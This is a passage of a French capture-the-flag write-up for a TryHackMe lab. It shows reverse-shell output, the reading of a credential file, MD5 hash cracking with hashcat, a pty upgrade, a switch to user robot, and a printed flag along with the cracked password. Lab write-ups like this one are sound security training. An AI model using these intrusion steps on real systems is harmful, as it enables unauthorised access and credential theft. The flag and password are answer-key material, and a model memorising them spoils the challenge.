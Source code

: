 On exécute le reverse shell.    

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.117.195] 38844
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 20:01:37 up  4:10,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ ls /home
robot
$ cd /home/robot

$ ls -al /home/robot 
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```

On obtient un shell.
On voit que l'on est connecté sous daemon.    
Quand on regarde les fichier dans \/home\/robot on peut que lire password.raw-md5.   
Dans le fichier il y a des identifiants.    
Nom : robot    
Un mot passe sous forme de hash md5 : c3fcd3d76192e4007dfb496cca67e13b    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "c3fcd3d76192e4007dfb496cca67e13b" > hash

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt --quiet
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
``` 

On casse le hash avec hashcat.    
Le mot de passe est : abcdefghijklmnopqrstuvwxyz   

**What is key 2?**

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot

su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
